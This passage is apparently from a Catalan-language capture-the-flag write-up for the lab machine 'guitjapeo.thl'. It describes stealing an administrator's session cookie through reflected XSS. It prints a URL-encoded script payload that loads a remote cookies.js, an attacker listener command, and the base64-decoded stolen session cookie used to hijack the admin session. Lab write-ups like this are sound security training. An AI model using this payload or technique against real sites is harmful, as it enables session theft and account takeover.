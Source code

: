 - Enviem missatge a l'administrador amb la URL maliciosa.
- L'administrador fa clic i carrega la URL al seu navegador.
- La URL carrega el nostre script de GitHub.
- El nostre script connecta amb l'endpoint /api/info per obtenir la galeta de sessió.
- El script redirecciona el navegador de l'Administrador a la nostra màquina atacant enviant un paràmetre data amb les galetes de l'Administrador codificada en base64.

Ens posem a escoltar a la nostra màquina atacant.

```
python3 -m http.server 80
```

Enviem un missatge a l'administrador amb la següent URL...

```
https://guitjapeo.thl/?text=%3Cscript%20src%3D%22https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FLen4m%2Ftemp%40main%2Fcookies.js%22%3E%3C%2Fscript%3E
```

... i esperem que faci clic per rebre la seva galeta de sessió.

![alt text](../../../assets/images/guitjapeo/image-8.png)

Descodifiquem el base64 i afegim les dades de la sessió a la nostra sessió des del navegador.

```
┌──(kali㉿kali)-[~]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQTlhNU5rN1U4MjJqSjhzVHZaMG1kXzE3ek1kWVpSaFNLLld0bnZQeDFkV0xLTHY0bE9yNk9FUzFlMHdiNG9zVyUyRjAwOWs2QXVscVo1bw== | base64 -d
connect.sid=s%3A9a5Nk7U822jJ8sTvZ0md_17zMdYZRhSK.WtnvPx1dWLKLv4lOr6OES1e0wb4osW%2F009k6AulqZ5o 
```
Actualitzem la pàgina després de modificar la galeta i ja som l'usuari Administrador.
